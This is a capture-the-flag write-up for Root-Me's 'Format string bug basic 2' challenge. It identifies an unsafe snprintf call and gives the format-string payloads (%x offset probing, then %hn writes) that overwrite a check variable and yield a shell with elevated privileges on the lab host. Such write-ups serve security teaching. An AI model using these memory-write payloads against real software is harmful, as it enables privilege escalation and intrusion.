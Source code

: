 # ELF x86 - Format string bug basic 2
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Format-string-bug-basic-2
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 YES 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch5@challenge02.root-me.org  
Username	app-systeme-ch14
Password	app-systeme-ch14
```
According to the source, the goal is to change the variable _check_ from 0x04030201 to 0xdeadbeef using string format vulnerability.<br>
The vulnerable code is at line 25:
```c
snprintf( fmt, sizeof(fmt), argv[1] );
```
Which enables an attacker to control the **fmt** argument of _snprintf_.<br>
Let's verify it quickly:
```sh
app-systeme-ch14@challenge02:~$ ./ch14 %08x.%08x.%08x.%08x
check at 0xbffffb08
argv[1] = [%08x.%08x.%08x.%08x]
fmt=[b7fdc4a0.00000001.00000000.00000001]
check=0x4030201
```
In order to exploit this vulnerability, first we'll need to find the offset of to our **argv[1]**. After few tries, one can find out that the offset is 9:
```sh
app-systeme-ch14@challenge02:~$ ./ch14 "AAAA %x %x %x %x %x %x %x %x %x"
check at 0xbffffaf8
argv[1] = [AAAA %x %x %x %x %x %x %x %x %x]
fmt=[AAAA b7fdc4a0 1 0 1 bffffc24 0 0 4030201 {41414141}]
check=0x4030201
```
Let's try to override the first nimble of **check**.<br>
First, we'll enter **check**'s address to the format string.<br>
Then, we'll make sure that the output string will contain enough bytes, so 0xbeef will be written.<br>
And for last, we'll take advantage of the "$" (control which variable will be used) and "hn" (writes the number of bytes into an int pointer) options.
So the input should look like ```\x08\xfb\xff\xbf%48875x%9hn``` (the 48875 can be found by trial and error):
```sh
app-systeme-ch14@challenge02:~$ ./ch14 $(python /tmp/exploit.py)
check at 0xbffffb08
argv[1] = ���%48875x%9$hn]

You are on the right way !
fmt=���                                                                                                                           ]
check=0x403beef
```
Great!<br>
Now let's write the second nimble.<br>
First, we'll enter the second nimble's address into the buffer (0xbffffb08 + 2 = 0xbffffb0a).<br>
Second, we'll adjust the 48875 to 48871 (4 more bytes entered).<br>
Then, at the end we'll make sure that the output string will contain enough bytes, so 0xdead will be written.<br>
And for last, we again take advantage of the "$" and "hn" options.<br>
So the input should look like ```\x08\xfb\xff\xbf\x0a\xfb\xff\xbf%48871x%9hn%73662x%10$hn```:
```
app-systeme-ch14@challenge02:~$ ./ch14 $(python /tmp/exploit.py)
check at 0xbffffaf8
argv[1] = [��������%48871x%9$hn%73662x%10$hn]
fmt=[��������                                                                                                                       ]
check=0xdeadbeef
Yeah dude ! You win !
$ id
uid=1114(app-systeme-ch14) gid=1114(app-systeme-ch14) euid=1214(app-systeme-ch14-cracked) groups=1214(app-systeme-ch14-cracked),100(users),1114(app-systeme-ch14)
$ cat .passwd
<censored>
```
